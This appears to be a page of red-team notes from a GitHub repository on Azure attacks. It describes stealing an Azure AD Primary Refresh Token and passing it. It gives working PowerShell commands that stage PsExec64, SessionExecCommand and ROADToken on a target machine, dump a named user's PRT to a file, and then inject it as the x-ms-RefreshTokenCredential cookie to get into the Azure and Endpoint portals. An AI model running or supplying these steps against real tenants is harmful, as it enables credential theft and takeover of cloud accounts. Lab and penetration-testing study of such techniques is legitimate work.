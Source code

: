 ```
#### Steal PRT

[Stage](https://github.com/conma293/Azure/blob/main/killcycle.md#session-play) the binaries ```PsExec64.exe``` ```SessionExecCommand.exe``` and ```ROADToken.exe``` on the machine with the user PRT
```
Copy-Item -ToSession $TargetVM -Path C:\AzAD\Tools\ROADToken.exe -Destination C:\ProgramData\ –Verbose 
```

Enter session- ```Enter-PSSession -Session $TargetVM```

Run scripts as user who possesses the PRT: 
```
Invoke-Command -Session $infradminsrv -ScriptBlock{C:\ProgramData\PsExec64.exe -accepteula -s "cmd.exe" " /c C:\ProgramData\SessionExecCommand.exe MichaelMBarron C:\ProgramData\ROADToken.exe <nonce> > C:\ProgramData\PRT.txt"}
```

Show PRT:
```
Invoke-Command -Session $infradminsrv -ScriptBlock{cat C:\ProgramData\PRT.txt}
```
#### Pass PRT
- goto ```https://login.microsoftonline.com/login.srf``` in incognito browser
- clear all cookies - Press F12 (Chrome dev tools) -> Application -> Cookies (may try clearing several times)
	- Add x-ms-RefreshTokenCredential and set value from stolen PRT
	- Mark HTTPOnly and Secure for the cookie
	- Visit https://login.microsoftonline.com/login.srf again
- As the redirect to office.com is spinning and not loading, open up a few new tabs and navigate, it should grab the cookie:
	- https://endpoint.microsoft.com/#home
	- portal.azure.com


















